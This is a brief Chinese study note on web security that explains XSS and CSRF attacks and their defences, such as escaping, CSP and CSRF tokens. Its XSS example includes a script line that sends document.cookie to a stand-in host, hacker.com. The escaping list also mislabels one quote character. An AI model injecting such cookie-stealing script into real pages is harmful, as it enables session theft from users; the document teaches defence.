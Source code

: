 ```yaml
---
title: 安全相关
date: 2018-06-10 22:42:09
tags: [安全]
---
```


# 安全

## XSS 攻击

举例

```javascript
div.innerHTML = (
  <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
);
// 恶意代码就被执行了，这就是 XSS
```

预防
不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行
如果你一样要用 innerHTML，字符过滤
把 < 替换成 &lt;
把 > 替换成 &gt;
把 & 替换成 &amp;
把 ' 替换成 &#39;
把 ' 替换成 &quot;
代码 div.innerHTML = userComment.replace(/>/g, '&lt;').replace...
使用 CSP Content Security Policy

## CSRF 攻击

利用用户的登录态发起恶意请求
过程
用户在 qq.com 登录
用户切换到 hacker.com（恶意网站）
hacker.com 发送一个 qq.com/add_friend 请求，让当前用户添加 hacker 为好友。
用户在不知不觉中添加 hacker 为好友。
用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象。
避免
检查 referer，qq.com 可以拒绝来自 hacker.com 的请求
使用csrf_token 来解决